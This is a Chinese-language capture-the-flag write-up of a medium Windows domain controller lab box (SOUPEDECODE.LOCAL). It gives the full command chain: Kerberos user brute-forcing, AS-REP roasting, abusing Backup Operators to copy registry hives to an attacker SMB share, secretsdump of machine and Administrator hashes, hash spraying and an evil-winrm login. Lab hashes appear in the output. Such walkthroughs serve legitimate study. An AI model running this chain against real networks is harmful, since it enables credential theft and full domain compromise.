









## Box Info

| OS | Windows |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali  
❯ nmap 192.168.56.126 -sV -Pn -T4  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-02 18:44 CST
Nmap scan report for 192.168.56.126
Host is up (0.00028s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-03-02 23:47:04Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: SOUPEDECODE.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: SOUPEDECODE.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
MAC Address: 08:00:27:4E:CF:21 (Oracle VirtualBox virtual NIC)
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.84 seconds
```

把**SOUPEDECODE.LOCAL**、**DC01.SOUPEDECODE.LOCAL**添加到**/etc/hosts**

## UserEnum

尝试**enum4linux**结果不允许空名枚举



并且在**DC03**中尝试过的**LLMNR**中毒攻击也没有任何反应



因此只能通过**kerberos**来进行用户枚举

- [ropnop/kerbrute: A tool to perform Kerberos pre-auth bruteforcing](https://github.com/ropnop/kerbrute)

用外部字典扫描到四个存在的用户



利用点应该是从**charlie**入手，需要注意的是要同步时区！！！！！

```
[root@kali] /home/kali/DC02  
❯ ntpdate soupedecode.local 
```



得到**charlie**的密码就是**charlie**

使用**crackmapexec**获取到用户名列表

```
[root@kali] /home/kali/DC02  
❯ crackmapexec smb 192.168.56.126 -u charlie -p charlie --rid-brute | grep SidTypeUser | sed 's/.*\\\(.*\)(.*/\1/'  > usernames.txt
```

## GetNPUsers

查看哪些用户没有设置预认证

```
[root@kali] /home/kali/DC02  
❯ impacket-GetNPUsers -usersfile usernames.txt -no-pass -dc-ip "192.168.56.126" soupedecode.local/
```



爆破得到密码



```
zximena448:internet
```

## Bloodhound

尽管目标机器上开放了**53**端口，存在**DNS**服务，但是呢经过测试是不可用的。



因此需要在本地开启一个**dnschef**，伪造**DNS**服务，也可以充当**DNS**服务器，绕过解析

```
[root@kali] /home/kali  
❯ dnschef --fakeip 192.168.56.126

[root@kali] /home/kali/DC02  
❯ bloodhound-python  -u 'zximena448' -p 'internet' -ns 127.0.0.1 -d SOUPEDECODE.LOCAL  -dc DC01.SOUPEDECODE.LOCAL   --zip 
```



可以看到当前的**ZXIMENA448**用户属于**BackupOperators**组

这在我之前写过的一篇文章中遇到过：[HTB-Blackfield - HYH](https://www.hyhforever.top/htb-blackfield/)

可以参考的文章👇

- [Backup Operator Privilege Escalation < BorderGate](https://www.bordergate.co.uk/backup-operator-privilege-escalation/)

现在本地开启一个**smb**服务

```
[root@kali] /tmp/shared  
❯ impacket-smbserver -smb2support -ts -debug share /tmp/shared      
```

然后提取 **SAM** 数据

```
[root@kali] /home/kali/DC02/backup_dc_registry (main) 
❯ impacket-reg -dc-ip 192.168.56.126 SOUPEDECODE.LOCAL/zximena448:internet@192.168.56.126  backup -o '\\192.168.56.104\share' 
```

下面这个**Administrator**的**hash**是无法使用的

```
[root@kali] /tmp/shared  
❯ impacket-secretsdump -system SYSTEM.save -sam SAM.save -security SECURITY.save LOCAL                                                                                                                        ⏎
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x0c7ad5e1334e081c4dfecd5d77cc2fc6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:a2d41e766e263b6324dcbd7aff4b69b3c42e44658e119ba6a43eae3f1da750a7689e19b94127d12e63171960583effc488a64efc45fa83d296e9f3cbcdccdbc693a3724e303fc24a67a183fbb60e6b0a2bf3638e60dbf01ad0b84b6cde6ff73d4c2a8a6a4bcb3027e0ccd34f360309b1551c684a13e4aac89c65effd462c458305181e08af5911c50c537f8f3f7280297ef15b961a3150a4caa27284be9120f7f786454f7db8282311573011a2d3d753f969493522d2d4d76e513903b63767f7b393ef389616d4faba451a683231add72167785765816010fa65786306ec10dd2ce0fd50cc4db6b304e9a60562852f7f
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:3582a8b74d192bbeca8a23cd2022baae
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x829d1c0e3b8fdffdc9c86535eac96158d8841cf4
dpapi_userkey:0x4813ee82e68a3bf9fec7813e867b42628ccd9503
[*] NL$KM 
 0000   44 C5 ED CE F5 0E BF 0C  15 63 8B 8D 2F A3 06 8F   D........c../...
 0010   62 4D CA D9 55 20 44 41  75 55 3E 85 82 06 21 14   bM..U DAuU>...!.
 0020   8E FA A1 77 0A 9C 0D A4  9A 96 44 7C FC 89 63 91   ...w......D|..c.
 0030   69 02 53 95 1F ED 0E 77  B5 24 17 BE 6E 80 A9 91   i.S....w.$..n...
NL$KM:44c5edcef50ebf0c15638b8d2fa3068f624dcad95520444175553e85820621148efaa1770a9c0da49a96447cfc896391690253951fed0e77b52417be6e80a991
[*] Cleaning up... 
```

但是获取到了**机器账户的hash ($MACHINE.ACC)**

**MachineAccount**是每台计算机在安装系统后默认生成的计算机帐户

## PasswordSpray

进行密码喷洒，发现这个**hash**是**DC01**用户的

```
[root@kali] /home/kali/DC02  
❯ crackmapexec smb 192.168.56.126 -u usernames.txt -H '3582a8b74d192bbeca8a23cd2022baae'                                                                                                                      ⏎
SMB         192.168.56.126  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         192.168.56.126  445    DC01             [-] SOUPEDECODE.LOCAL\Administrator:3582a8b74d192bbeca8a23cd2022baae STATUS_LOGON_FAILURE 
SMB         192.168.56.126  445    DC01             [-] SOUPEDECODE.LOCAL\Guest:3582a8b74d192bbeca8a23cd2022baae STATUS_LOGON_FAILURE 
SMB         192.168.56.126  445    DC01             [-] SOUPEDECODE.LOCAL\krbtgt:3582a8b74d192bbeca8a23cd2022baae STATUS_LOGON_FAILURE 
SMB         192.168.56.126  445    DC01             [+] SOUPEDECODE.LOCAL\DC01$:3582a8b74d192bbeca8a23cd2022baae 
```

再次进行**secrets-dump**，查看是否在**DC01**上保存有**Admin**的**hash**

```
[root@kali] /home/kali/DC02  
❯ impacket-secretsdump SOUPEDECODE.LOCAL/'DC01$'@192.168.56.126 -hashes 'aad3b435b51404eeaad3b435b51404ee:3582a8b74d192bbeca8a23cd2022baae' -target-ip 192.168.56.126 | grep Administrator                    ⏎
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8982babd4da89d33210779a6c5b078bd:::
Administrator:aes256-cts-hmac-sha1-96:01dc1e0f079f2dfe4a880156b7192acc658b8733cc87f1c5be32c291ad8e0318
Administrator:aes128-cts-hmac-sha1-96:4b4cf4064e92346339b1a3ef3ff65d6b
Administrator:des-cbc-md5:b0614357f8160ef4
```

最后使用**Evil-winrm**登录



## Summary

先通过**kerbrute**进行用户名爆破，再检查到了没有设置**Kerberos**预认证的用户，泄露出用户哈希，获取到用户**zximena448**。

**zximena448**用户属于**Backup Operators**组，可以利用其权限获取到**SAM**等数据文件。分析得到域内默认机器**DC01**的密码哈希。

最后在**DC01**的机器上进行哈希提取，应该是**Administrator**登陆过**DC01**，因此提取到了他的哈希值。
